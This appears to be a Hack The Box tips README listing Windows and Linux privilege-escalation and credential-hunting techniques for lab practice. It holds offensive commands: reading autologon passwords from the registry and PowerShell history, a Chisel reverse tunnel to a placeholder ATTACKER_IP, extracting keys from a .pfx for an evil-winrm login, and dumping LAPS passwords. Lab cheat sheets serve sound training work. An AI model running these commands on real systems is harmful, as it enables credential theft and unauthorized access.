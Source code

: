 # HTB-tips

## Windows Privilege Escalation - Registry Autologon
Sometimes windows stores credentials in plaintext (DefaultDomainName, DefaultUserName,DefaultPassword)

EXAMPLE USAGE:
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```


## Windows Privilege Escalation - Powershell history file
Windows stores the powershell history in a file in the psreadlinefolder.(just like linux stores it under the .bash_history).
```
more C:\users\adam\appdata\roaming\microsoft\windows\powershell\psreadline\*.txt
```

## Linux Privilege Escalation - Dcoker Container Mounted files
A docker conatiner is mounted to a home directory. The docker connects the containers file system to the hosts file system -- live. So any changes in the host file system also affects in the docker and vice versa.If the we get root on the docker conatiner(by default we are root inside the docker) this can result in easy priv esc by setting up the setuid to a any binary.

## Linux Privilege Escalation - Port Forwarding using Chisel
Attacker Machine
```bash
chisel server -p ATTACKER_PORT --reverse
```
Target Machine
```bash
chisel client ATTACKER_IP:ATTACKER_PORT R:LOCAL_PORT:127.0.0.1:PORT_RUNNING_ON_TARGET_MACHINE
```

## Windows Exploitation - Pass the Cert
If we get a .pfx file we can get the cert.pem and key.pem from the .pfx file and try to logging in the machine if winrm service is enabled using pass the cert attack.
Extracting the key and cert
```
openssl pkcs12  -in legacyy_dev_auth.pfx -info -nokeys -out cert.pem
openssl pkcs12  -in legacyy_dev_auth.pfx -info -nocerts -nodes -out key.pem
```
After getting the cert and the key we can log-in
```
evil-winrm -i IP -S -k key.pem -c cert.pem
```

## Windows Credentail Hunting - Member of LAPS Group
LAPS is used to store administrator passwords which are complex and randomized, We can use a lapsdumper from github to extract the administrator password
```
lapsdumper.py -u user -p password -d domain.local
```
